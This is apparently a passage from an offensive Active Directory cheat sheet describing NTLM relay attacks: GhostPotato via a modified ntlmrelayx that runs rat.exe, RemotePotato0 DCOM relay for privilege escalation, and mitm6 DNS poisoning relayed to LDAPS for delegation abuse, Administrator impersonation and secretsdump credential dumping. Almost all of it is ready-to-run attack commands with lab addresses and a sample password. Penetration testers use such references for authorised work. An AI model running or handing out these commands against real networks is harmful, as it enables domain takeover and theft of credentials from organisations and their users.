 Using a modified version of ntlmrelayx : <https://shenaniganslabs.io/files/impacket-ghostpotato.zip>

```powershell
ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
```

## RemotePotato0 DCOM DCE RPC relay

> It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine

Requirements:

* a shell in session 0 (e.g. WinRm shell or SSH shell)
* a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

```powershell
# https://github.com/antonioCoco/RemotePotato0/
Terminal> sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
Terminal> sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
Session0> RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
Terminal> psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135'
```

## DNS Poisonning - Relay delegation with mitm6

Requirements:

* IPv6 enabled (Windows prefers IPV6 over IPv4)
* LDAP over TLS (LDAPS)

> ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

```powershell
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -hw ws02 -d lab.local --ignore-nofqnd
# -d: the domain name that we filter our request on (the attacked domain)
# -i: the interface we have mitm6 listen on for events
# -hw: host whitelist

ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad
ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer
# -ip: the interface you want the relay to run on
# -wh: WPAD host, specifying your wpad file to serve
# -t: the target where you want to relay to

# now granting delegation rights and then do a RBCD
ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator  
export KRB5CCNAME=administrator.ccache  
secretsdump.py -k -no-pass target.lab.local  
```
